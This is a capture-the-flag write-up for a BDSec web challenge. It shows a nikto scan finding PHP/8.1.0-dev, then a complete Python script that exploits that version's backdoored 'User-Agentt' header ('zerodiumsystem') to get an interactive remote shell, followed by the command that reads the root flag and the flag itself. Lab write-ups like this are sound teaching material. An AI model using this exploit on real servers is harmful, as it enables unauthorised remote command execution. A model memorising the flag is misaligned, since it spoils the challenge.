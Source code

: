 # BDSec 
## WEB category
### Can You See Me 50 Point
- Found URL : http://139.144.184.115:8989/
- running nikto found :
    ```Retrieved x-powered-by header: PHP/8.1.0-dev```
- exploit the PHP/8.1.0-dev
    ```python
    #!/usr/bin/env python3
    import os
    import re
    import requests

    host = "http://139.144.184.115:8989" #input("Enter the host url:\n")
    request = requests.Session()
    response = request.get(host)

    if str(response) == '<Response [200]>':
        print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
        try:
            while 1:
                cmd = input("$ ")
                headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
                "User-Agentt": "zerodiumsystem('" + cmd + "');"
                }
                response = request.get(host, headers = headers, allow_redirects = False)
                current_page = response.text
                stdout = current_page.split('<!DOCTYPE html>',1)
                text = print(stdout[0])
        except KeyboardInterrupt:
            print("Exiting...")
            exit

    else:
        print("\r")
        print(response)
        print("Host is not available, aborting...")
        exit
    ```
- receive the SHELL:
    ```bash
    $ cat /root/flag.txt
    BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
    ```

[![Thumbnail](https://img.youtube.com/vi/igtDxvz-CpA/0.jpg)](https://www.youtube.com/watch?v=igtDxvz-CpA)
